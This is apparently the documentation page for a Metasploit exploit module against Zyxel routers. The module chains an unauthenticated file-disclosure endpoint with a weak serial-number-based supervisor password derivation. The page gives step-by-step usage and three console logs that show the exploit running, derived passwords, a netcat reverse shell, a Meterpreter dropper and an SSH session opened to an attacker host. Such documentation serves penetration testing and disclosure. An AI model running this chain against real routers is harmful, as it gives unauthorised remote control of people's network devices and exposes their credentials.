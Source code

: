 ## Vulnerable Application

This module exploits multiple vulnerabilities in the `zhttpd` binary (/bin/zhttpd) and `zcmd` binary (/bin/zcmd).
It is present on more than 40 Zyxel routers and CPE devices.
The remote code execution vulnerability can be exploited by chaining the local file disclosure (LFI) vulnerability
in the `zhttpd` binary that allows an unauthenticated attacker to read the entire configuration of the router
via the vulnerable endpoint `/Export_Log?/data/zcfg_config.json`.

With this information disclosure, the attacker can determine if the router is reachable via `ssh` and use
the second vulnerability in the `zcmd` binary to derive the `supervisor` password by exploiting a weak password
derivation algorithm using the device serial number.

After exploitation, an attacker will be able to execute any command as user `supervisor`.

For more info, read this article: [Zyxel router chained RCE using LFI and Weak Password Derivation Algorithm (No CVE)](https://attackerkb.com/topics/dkw2Y2zdyN/zyxel-router-chained-rce-using-lfi-and-weak-password-derivation-algorithm-no-cve) on [attackerkb.com](url).

Installing a vulnerable test bed requires a vulnerable Zyxel router.
This module has been tested against a vulnerable Zyxel router with the specifications listed below:

* Zyxel router VMG3625-T20A
* Firmware: V5.30(ABOU.2)b1_I0_20180827

## Verification Steps

1. Start `msfconsole`
1. `use exploit/linux/http/zyxel_lfi_unauth_ssh_rce`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0=unix command, 1=Linux dropper, 2=Interactive SSH>`
1. `exploit`
1. You should be able to get a session based on the target setting.


## Options
Option `STORE_CRED` can be set to store the derived credentials (supervisor) in the database of Metasploit.
Default setting is `true`.

### Advanced options
Option `SSH_DEBUG` can be set to enable SSH debugging output (Extreme verbosity!). Default is `false`.
Option `SSH_TIMEOUT` can be used to specify the maximum time to negotiate a SSH session. Default is 30 seconds.
Option `ConnectTimeout` where you can specify the maximum number of seconds to establish a TCP connection. Default is 10 seconds.

## Scenarios

### Zyxel router VMG3625-T20A - Netcat reverse shell
```
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > options

Module options (exploit/linux/http/zyxel_lfi_unauth_ssh_rce):

   Name        Current Setting         Required  Description
   ----        ---------------         --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.1.1             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
                                                 loit/basics/using-metasploit.html
   RPORT       8080                    yes       The target port (TCP)
   SSL         false                   no        Negotiate SSL/TLS for outgoing connections
   SSLCert                             no        Path to a custom SSL certificate (default is randomly generated)
   STORE_CRED  false                   no        Store credentials into the database.
   URIPATH                             no        The URI to use for this exploit (default is random)
   VHOST                               no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on th
                                       e local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set target 0
target => 0
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABOU.2)b1_I0_20180827 Serial:S000Y00000000
[+] The target is vulnerable.
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABOU.2)b1_I0_20180827 Serial:S000Y00000000
[*] SSH service is available and SSH Port 22 is open. Continue to login.
[*] Derived supervisor password using SerialNumMethod2: 2dc1a078
[*] Derived supervisor password using SerialNumMethod3: 58Pxnwdefr
[*] Authentication with derived supervisor password using Method2 is successful.
[*] Executing Unix Command for cmd/unix/reverse_netcat
[*] Command shell session 1 opened (192.168.1.2:4444 -> 192.168.1.1:51236) at 2023-04-18 19:57:49 +0000

uname -a
Linux VMG3625-T20A 2.6.36 #7 SMP Mon Aug 27 19:59:01 CET 2018 mips GNU/Linux
id
uid=12(supervisor) gid=12 groups=12
exit

[*] 192.168.1.1 - Command shell session 1 closed.
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce)
```

### Zyxel router VMG3625-T20A - Linux Dropper Meterpreter session
```
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set target 1
target => 1
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABOU.2)b1_I0_20180827 Serial:S000Y00000000
[+] The target is vulnerable.
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABOU.2)b1_I0_20180827 Serial:S000Y00000000
[*] SSH service is available and SSH Port 22 is open. Continue to login.
[*] Derived supervisor password using SerialNumMethod2: 2dc1a078
[*] Derived supervisor password using SerialNumMethod3: 58Pxnwdefr
[*] Authentication with derived supervisor password using Method2 is successful.
[*] Executing Linux Dropper for linux/mipsbe/meterpreter/reverse_tcp
[*] Command Stager progress -  42.72% done (499/1168 bytes)
[*] Command Stager progress -  85.36% done (997/1168 bytes)
[*] Sending stage (1299256 bytes) to 127.0.0.1
[*] Command Stager progress - 100.00% done (1168/1168 bytes)
[*] Meterpreter session 2 opened (192.168.1.2:4444 -> 192.168.1.1:40364) at 2023-04-18 20:00:59 +0000

meterpreter > getuid
Server username: supervisor
meterpreter > sysinfo
Computer     : 192.168.1.1
OS           :  (Linux 2.6.36)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.1 - Meterpreter session 2 closed.  Reason: User
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce)
```

### Zyxel router VMG3625-T20A - Interactive SSH session and storing the credentials of user supervisor
```
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set target 2
target => 2
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set STORE_CRED true
STORE_CRED => true
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABOU.2)b1_I0_20180827 Serial:S000Y00000000
[+] The target is vulnerable.
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABOU.2)b1_I0_20180827 Serial:S000Y00000000
[*] SSH service is available and SSH Port 22 is open. Continue to login.
[*] Derived supervisor password using SerialNumMethod2: 2dc1a078
[*] Derived supervisor password using SerialNumMethod3: 58Pxnwdefr
[*] Authentication with derived supervisor password using Method2 is successful.
[*] Credentials for user:supervisor are added to the database...
[*] SSH session 3 opened (192.168.1.2:34493 -> 192.168.1.1:22) at 2023-04-18 20:07:36 +0000

uname -a
Linux VMG3625-T20A 2.6.36 #7 SMP Mon Aug 27 20:08:48 CET 2018 mips GNU/Linux
id
uid=12(supervisor) gid=12 groups=12
exit

[*] 192.168.1.1 - SSH session 3 closed.  Reason: User exit
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > creds -u supervisor
Credentials
===========

host           origin         service          public      private   realm  private_type  JtR Format
----           ------         -------          ------      -------   -----  ------------  ----------
192.168.1.1    192.168.1.1    8080/tcp (http)  supervisor  2dc1a078         Password

msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > 
```

## Limitations
No limitations identified.
